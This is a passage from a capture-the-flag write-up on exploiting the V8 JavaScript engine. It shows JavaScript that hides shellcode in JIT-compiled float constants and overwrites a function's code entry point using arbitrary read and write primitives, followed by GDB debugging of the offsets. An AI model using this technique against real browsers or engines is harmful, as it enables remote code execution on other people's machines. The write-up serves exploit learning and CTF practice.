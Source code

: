 aaaaaaaaaaaaaaand it worked! But we are not done as this POC only implements the arbitrary read and write functions in `v8_read64` and `v8_write64`. I would ultimately still need to get a shell in order to read the flag from the system.

So I did a bit more research to see if there were any CTF write ups that I could use as reference, and I came across this [write up](https://chovid99.github.io/posts/hitcon-ctf-2022/). 

This write up implements the entire exploit, but the only relevant part is where the script leverages the arbitrary read and write functions to gain shell access to the remote system. 

It implements a function that places shellcode in RWX memory by JIT compiling a function that returns a float array and smuggling the shellcode instructions as the float values. We can simply copy the relevant parts of the code, rename the functions, and fix any broken offsets afterwards.

```js
const foo = ()=>
{
    return [1.0,
        1.95538254221075331056310651818E-246,
        1.95606125582421466942709801013E-246,
        1.99957147195425773436923756715E-246,
        1.95337673326740932133292175341E-246,
        2.63486047652296056448306022844E-284];
}
for (let i = 0; i < 0x10000; i++) {foo();foo();foo();foo();}

f_code = v8_read64(addr_of(foo)+0x18n) & ((1n << 32n) - 1n);
f_code_code_entry_point = v8_read64(f_code+0xcn);
v8_write64(f_code+0xcn, f_code_code_entry_point+124n);
foo();
```

At this point, if we run the payload, it fails to work. In order to debug this, we can follow the steps taken in the writeup to check if the offsets are correct. This will require us to compile a debug build of `d8` so that we can get more verbose debug output when we call `%DebugPrint`. Following the writeup, we can also use the `job` command in GDB by loading the GDB scripts in `build/tools` into GDB.

Apart from changing `is_debug` to `true`, we will also have to disable `dcheck` by following [this](https://v8-users.narkive.com/HDDkEOae/how-to-off-dcheck), which would otherwise cause `d8` to keep terminating whenever it tries to do stuff with the hole. 

By following the steps taken in the writeup, we can note that some offsets are different. For example, as shown below, our `code_entry_point` is at an offset of `code+0x10n` instead of `0xc`.

```
pwndbg> x/20wx 0x30840025539d-1
0x30840025539c: 0x00002a71      0x000023e1      0xc0004001      0x00007f81
0x3084002553ac: 0xc0004040      0x00007f81      0xffff001d      0x00000004
0x3084002553bc: 0x00002231      0x0000004e      0x00255461      0x00000002
0x3084002553cc: 0x00255505      0x00000066      0x0000007c      0x00000000
0x3084002553dc: 0x00254fe5      0x00255521      0x0000089a      0x00000008

pwndbg> job 0x30840025539d
0x30840025539d: [CodeDataContainer] in OldSpace
 - map: 0x308400002a71 <Map[32](CODE_DATA_CONTAINER_TYPE)>
 - kind: TURBOFAN
 - is_off_heap_trampoline: 0
 - code: 0x7f81c0004001 <Code TURBOFAN>
 - code_entry_point: 0x7f81c0004040
 - kind_specific_flags: 4
```
